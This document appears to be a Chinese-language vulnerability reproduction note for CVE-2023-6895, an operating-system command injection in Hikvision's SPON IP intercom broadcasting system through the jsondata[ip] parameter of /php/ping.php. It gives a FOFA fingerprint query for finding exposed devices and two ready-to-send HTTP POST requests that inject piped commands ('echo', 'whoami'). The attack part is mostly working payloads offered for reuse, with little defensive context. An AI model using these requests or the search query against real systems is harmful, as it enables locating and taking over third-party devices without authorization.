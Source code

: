 # 海康威视SPON IP网络对讲广播系统存在命令执行漏洞(CVE-2023-6895)

# 一、漏洞简介
Hikvision Intercom Broadcasting System是中国海康威视（Hikvision）公司的一个对讲广播系统。Hikvision Intercom Broadcasting System 3.0.3_20201113_RELEASE(HIK)版本存在操作系统命令注入漏洞，该漏洞源于文件/php/ping.php的参数jsondata[ip]会导致操作系统命令注入。

# 二、影响版本
+ 海康威视SPON IP网络对讲广播系统

# 三、资产测绘
+ fofa`icon_hash="-1830859634"`
+ 特征

![1703683596082-c644fff9-438a-460f-891f-450ad725c4bd.png](./img/zkv4X8uRv86yGSaP/1703683596082-c644fff9-438a-460f-891f-450ad725c4bd-280274.png)

# 四、漏洞复现
```plain
POST /php/ping.php HTTP/1.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Host: {hostname}
Content-Length: 40
Content-Type: application/x-www-form-urlencoded

jsondata[ip]=a|echo stc&jsondata[type]=1
```

![1703683644604-a5807506-f785-435a-b533-2746677fe24b.png](./img/zkv4X8uRv86yGSaP/1703683644604-a5807506-f785-435a-b533-2746677fe24b-391178.png)

```plain
POST /php/ping.php HTTP/1.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Host: {hostname}
Content-Length: 40
Content-Type: application/x-www-form-urlencoded

jsondata[ip]=a|whoami&jsondata[type]=1
```

![1703683677233-dde83799-2b24-4b7b-984b-0429def16e4a.png](./img/zkv4X8uRv86yGSaP/1703683677233-dde83799-2b24-4b7b-984b-0429def16e4a-426020.png)



> 更新: 2024-02-29 23:57:17  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/oi2zyivh6brw6t9s>
